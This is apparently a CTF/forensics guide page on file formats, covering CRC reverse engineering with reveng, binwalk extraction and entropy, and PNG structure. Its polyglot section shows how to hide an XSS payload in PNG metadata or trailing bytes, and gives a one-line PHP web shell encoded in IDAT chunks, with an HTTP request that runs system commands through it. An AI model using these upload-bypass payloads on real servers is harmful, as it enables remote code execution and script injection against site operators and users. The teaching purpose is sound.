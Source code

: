 ```yaml
---
description: What to do with a file you don't understand
---
```


# File Formats

## Understanding common file formats

If you want to understand how a file format works, you should look at documentation online about it. Often these formats are not ASCII readable so you'll want to use a hex editor, such as `xxd`, `hexedit` or [hexyl](https://github.com/sharkdp/hexyl).&#x20;

A big collection of file formats made by Ange Albertini is the following (just scroll through until you find your format):

{% embed url="https://github.com/corkami/pics/blob/master/binary/README.md" %}
A big collection of drawings of file formats to understand them quickly
{% endembed %}

### CRCs: Cyclic Redundancy Checks

File formats often use a [Cyclic Redundancy Check (CRC)](https://en.wikipedia.org/wiki/Cyclic\_redundancy\_check) to validate if the bytes have been tampered with or corrupted slightly. See these as a checksum that combines all bytes into a small extra set of bytes that is different if you change even a single bit. These are not as strong as real hashing algorithms, but only output a few bytes. Preventing collisions is not their purpose, purely detecting accidental changes.

Because there are many different types of CRCs, a site like the following makes it easy to compare your data and output to reverse engineer exactly what algorithm was used. Then you can use this knowledge to create a correct checksum for any arbitrary data:

{% embed url="https://crccalc.com/" %}
Quickly view lots of well-known CRC of different sizes based on your input
{% endembed %}

[CRC `reveng`](https://reveng.sourceforge.io/) is another tool built for calculating the CRC parameters from enough samples, so it does not have to be a well-known algorithm.&#x20;

<details>

<summary>Compilation</summary>

Download and extract the source code, then run `make`. If you run into the following error, do as it says and change the `BMP_BIT` and `BMP_SUB` values inside `config.h`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
reveng: configuration fault.  Update config.h with these definitions and recompile:
        #define BMP_BIT   64
        #define BMP_SUB   32
<strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c bmpbit.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c cli.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c model.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c poly.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c preset.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c reveng.c
...
</code></pre>

Then you can install the tool using `sudo ln -s "$(pwd)"/reveng /usr/bin/reveng`.

</details>

<details>

<summary>Usage</summary>

Given a word length (often 8, 16 or 32), this tool can find the parameters of a CRC algorithmically. You need to provide hex strings that are followed by the CRC. Often these can be recognized by templated data (eg. lots of nulls or similar data) followed by 1, 2 or 4 random bytes which are the CRC. Take the following example:

{% code title="Hexdump" %}
```python
52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8
52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0  REC............./.e.
52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25  REC..............{0%
52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD  REC.................
```
{% endcode %}

It looks like the last 4 bytes of each row are pretty random. To crack the exact algorithm used, we simply provide them to `reveng` as hex strings and the 32-bit length we guessed52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ reveng -w32 -s \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38" \
</strong><strong>  "52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0" \
</strong><strong>  "52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25" \
</strong><strong>  "52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD"
</strong>
width=32  poly=0x04c11db7  init=0xffffffff  refin=true  refout=true  xorout=0xffffffff  check=0xcbf43926  residue=0xdebb20e3  name="CRC-32/ISO-HDLC"
</code></pre>

It found all parameters, and the preset name "CRC-32/ISO-HDLC". This is a well-known variant. Next, we can predict the CRC for any sequence of data by specifying a preset:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ reveng -m "CRC-32/ISO-HDLC" -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

This correctly computes the hash for the first string! If the tool did not find a named preset, you can still give it the raw parameters to achieve the same result:

<pre class="language-shell-session"><code class="lang-shell-session">$ reveng -w $WIDTH -p $POLY -i $INIT -x $XOROUT -c $INPUT_DATA
# # See -b, -B, -l, and -L for refin/refout values
<strong>$ reveng -w32 -p 0x04C11DB7 -i 0xFFFFFFFF -l -x 0xFFFFFFFF -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

</details>

## Binwalk

Sometimes when data tries to be hidden inside another file, it is just pasted right into the host file. Meaning that the bytes of the secret file are just somewhere in the other file. Using [binwalk](https://github.com/ReFirmLabs/binwalk) you can check for known file signatures in a file to see if it embeds something. \
Using the following command you can also recursively extract all of these into a `.extracted` folder:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ binwalk -eM file.bin
</strong>DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             TRX firmware header, little endian, image size: 37883904 bytes, CRC32: 0x95C5DF32, flags: 0x1, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x0, rootfs offset: 0x0
28            0x1C            uImage header, header size: 64 bytes, header CRC: 0x780C2742, created: 2018-10-10 02:12:20, image size: 2150281 bytes, Data Address: 0x8000, Entry Point: 0x8000, data CRC: 0xA097CFEA, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "DD-WRT"
92            0x5C            Linux kernel ARM boot executable zImage (little-endian)
2460          0x99C           device tree image (dtb)
23432         0x5B88          xz compressed data
23776         0x5CE0          xz compressed data
2117484       0x204F6C        device tree image (dtb)
3145756       0x30001C        UBI erase count header, version: 1, EC: 0x0, VID header offset: 0x800, data offset: 0x1000

<strong>$ binwalk --dd='.*' file.bin  # Another way to extract all file signatures
</strong></code></pre>

{% hint style="warning" %}
A common false positive with PNGs is `Zlib compressed data`. This is because PNG uses Zlib for compression in its own file format, so it is recognized by binwalk. But very often this compressed data just covers the entire file
{% endhint %}

You can also use binwalk to understand an unknown file better, by looking at the **entropy** for example. Entropy is how random a certain sequence of bytes is. Simple ASCII text is pretty predictable and stays within about the same range, so the entropy would be low. But for completely random/encrypted bytes the entropy should be really high, close to 1. You can get a graph of the entropy of the file using the `-E` flag:

```shell-session
$ binwalk -E file.bin
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>An example of a firmware image showing various amounts of entropy (<a href="https://allabouttesting.org/short-tutorial-firmware-analysis-tool-binwalk/">source</a>)</p></figcaption></figure>

This can give a good idea about what parts of a file you could look at.&#x20;

## PNG

Image files like PNG can have a lot of hidden info. It's a relatively complex file format with a lot of room for secrets.&#x20;

A quick check you can do to see if it is a completely valid PNG file is using [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcheck -h
</strong>Test PNG, JNG or MNG image files for corruption, and print size/type info.

Usage:  pngcheck [-7cfpqtv] file.{png|jng|mng} [file2.{png|jng|mng} [...]]
   or:  ... | pngcheck [-7cfpqstvx]
   or:  pngcheck [-7cfpqstvx] file-containing-PNGs...

Options:
   -7  print contents of tEXt chunks, escape chars >=128 (for 7-bit terminals)
   -c  colorize output (for ANSI terminals)
   -f  force continuation even after major errors
   -p  print contents of PLTE, tRNS, hIST, sPLT and PPLT (can be used with -q)
   -q  test quietly (output only errors)
   -s  search for PNGs within another file
   -t  print contents of tEXt chunks (can be used with -q)
   -v  test verbosely (print most chunk data)
   -x  search for PNGs within another file and extract them when found

<strong>$ pngcheck image.png
</strong>OK: image.png (1920x1080, 32-bit RGB+alpha, non-interlaced, 96.6%).
</code></pre>

PNG files consist of **chunks** of bytes that tell something about the image. The most common one is `IDAT` which contains the pixel data of the image. An image always ends with `IEND` and 4 checksum bytes (every chunk has the checksum).&#x20;

You might see custom chunks being used to embed data, or data appended to the end, after `IEND`.&#x20;

### Embed Raw Data (Polyglots)

You might find some applications where you are allowed to upload files and find that you can either give them a `.php` extension to create a web shell or make the `Content-Type: text/html` to render tags inside the raw bytes for [cross-site-scripting-xss.md](../web/cross-site-scripting-xss.md "mention"). In either case, this application might validate or even transform your image in a way that does not preserve all the original bytes, breaking your payload.&#x20;

While you might be able to include **metadata** with tools like `exiftool`, these might be stripped by the server upon saving your file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -Comment='&#x3C;svg/onload=alert()>' example.png
</strong>    1 image files updated
<strong>$ hd example.png
</strong>00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
...
00000080  e0 b6 b6 f4 d1 0d 53 22  0d 14 00 00 00 1c 74 45  |......S"......tE|
<strong>00000090  58 74 43 6f 6d 6d 65 6e  74 00 3c 73 76 67 2f 6f  |XtComment.&#x3C;svg/o|
</strong><strong>000000a0  6e 6c 6f 61 64 3d 61 6c  65 72 74 28 29 3e ad 30  |nload=alert()>.0|
</strong>000000b0  14 57 00 00 08 7d 49 44  41 54 78 5e ec ce 31 0d  |.W...}IDATx^..1.|
</code></pre>

Another trick is simply appending data to the end of the file. This would not pass as a valid PNG anymore, but could survive on the server:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo '&#x3C;svg/onload=alert()>' >> example.png
</strong>
<strong>$ hd example.png
</strong>...
000009d0  5a b3 07 54 ac 7b 51 fb  78 a7 ea 00 00 00 00 49  |Z..T.{Q.x......I|
<strong>000009e0  45 4e 44 ae 42 60 82 3c  73 76 67 2f 6f 6e 6c 6f  |END.B`.&#x3C;svg/onlo|
</strong><strong>000009f0  61 64 3d 61 6c 65 72 74  28 29 3e 0a              |ad=alert()>.|
</strong>000009fc
</code></pre>

Lastly, there is a technique more resistant to transformation by using the **IDAT chunks**. These normally include compressed DEFLATE data representing the pixels themselves, but this process can be reversed to obtain a string of pixels that compress into a payload like:

```php
<?=$_GET[0]($_POST[1]);?>
```

If the payload above is executed, you can provide a function you want to call like `system()` as the query parameter `0`, and an argument you want to give the function in a `1` body parameter.&#x20;

<pre class="language-http"><code class="lang-http"><strong>POST /shell.php?0=system HTTP/1.1
</strong>...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

<strong>1=id
</strong></code></pre>

The process of creating these and a few example payloads are described in the following post, which also shows an XSS payload with the same idea:

{% embed url="https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/" %}

## Archives (ZIP, TAR, 7z, etc.)

{% content-ref url="archives.md" %}
[archives.md](archives.md)
{% endcontent-ref %}

